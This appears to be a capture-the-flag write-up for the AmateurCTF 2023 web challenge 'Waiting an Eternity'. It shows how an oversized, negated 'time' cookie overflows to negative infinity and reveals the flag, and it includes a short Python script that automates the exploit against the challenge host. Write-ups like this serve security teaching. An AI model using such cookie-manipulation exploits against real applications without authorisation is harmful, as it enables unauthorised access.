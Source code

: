 ```yaml
---
title: AmateurCTF '23 - Web - Waiting an Eternity
date: '2023-07-18'
tags: ['web', 'amateurctf23', 'integer-overflow', 'flask']
draft: false
summary: Utilizing integer overflow in the cookie to make the web-app wait for -inf time.
---
```


## Challenge Description

My friend sent me this website and said that if I wait long enough, I could get and flag! Not that I need a flag or anything, but I've been waiting a couple days and it's still asking me to wait. I'm getting a little impatient, could you help me get the flag?

Author: voxal

Connection info: [waiting-an-eternity.amt.rs](https://waiting-an-eternity.amt.rs)

## Solution

Firstly, I opened up the provided link directly in the browser

![chal](/static/writeups/amateurctf2023/web/et-1.png)

Next, we'll analyze the request and it's response in `Burp's` repeater

![chal](/static/writeups/amateurctf2023/web/et-2.png)

We can see that a `url` is being set to `/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a` and another header `Refresh` is being used to a _fairly_ large number. On visting the page:

![chal](/static/writeups/amateurctf2023/web/et-3.png)

Weird. Analyzing this request's response in repeater:

![chal](/static/writeups/amateurctf2023/web/et-4.png)

We can see that a `Cookie` is being set `time`. We can see that the time is being set to `EPOCH` standard time. Let's try passing -1 as the value of the cookie:

![chal](/static/writeups/amateurctf2023/web/et-5.png)

Okay, we can see that page prints the epoch value. Let's try and overflow it and see what happens:

`Cookie: time=100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`

![chal](/static/writeups/amateurctf2023/web/et-6.png)

Well, adding more and more zero's until we get `inf`

`Cookie: time=1000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`

![chal](/static/writeups/amateurctf2023/web/et-7.png)

This worked. Let's try and convert this number to a negative number and hope we get the flag

![chal](/static/writeups/amateurctf2023/web/et-8.png)

And we get the flag!.

---

However, knowing me; do you think I'd let this go without an automated `get_flag.py` script?

```python
import requests

url = "https://waiting-an-eternity.amt.rs"

print("[+] Getting the redirected url with secretcode:")
r = requests.get(url)
_dir = r.headers['Refresh'].split(';')[1][5:]
print(f"[*] Got path: {_dir}")
print(f"[*] Getting the flag: ", end='')
cookies = {
	'time' : '-1' + '0' * 330
}
r = requests.get(url + _dir, cookies=cookies)
print(r.text)
```

and; in the output, we get the flag

![chal](/static/writeups/amateurctf2023/web/et-9.png)
